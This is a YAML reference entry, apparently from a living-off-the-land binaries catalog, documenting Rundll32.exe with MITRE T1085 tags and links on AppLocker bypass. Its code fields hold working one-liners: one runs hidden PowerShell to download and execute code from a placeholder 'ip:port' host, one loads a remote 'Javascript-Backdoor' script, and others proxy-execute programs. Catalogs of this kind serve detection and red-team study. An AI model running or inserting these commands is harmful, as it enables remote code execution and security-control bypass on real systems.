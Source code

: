 ```yaml
---
name: Rundll32.exe
description: Used by Windows to execute dll files
functions:
  execute:
    - description: AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.
      code: rundll32.exe AllTheThingsx64,EntryPoint
      mitreid: T1085
      mitrelink: https://attack.mitre.org/wiki/Technique/T1085
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute dll file
    - description: Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.
      code: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
      mitreid: T1085
      mitrelink: https://attack.mitre.org/wiki/Technique/T1085
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code from Internet
    - description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe.
      code: rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
      mitreid: T1085
      mitrelink: https://attack.mitre.org/wiki/Technique/T1085
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.
      code: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
      mitreid: T1085
      mitrelink: https://attack.mitre.org/wiki/Technique/T1085
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.
      code: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
      mitreid: T1085
      mitrelink: https://attack.mitre.org/wiki/Technique/T1085
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code from Internet
resources:
    - resource: https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
    - resource: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
    - resource: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
    - resource: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
fullpath:
    - path: C:\Windows\System32\rundll32.exe
    - path: C:\Windows\SysWOW64\rundll32.exe
detection:
  - IOC: 
acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

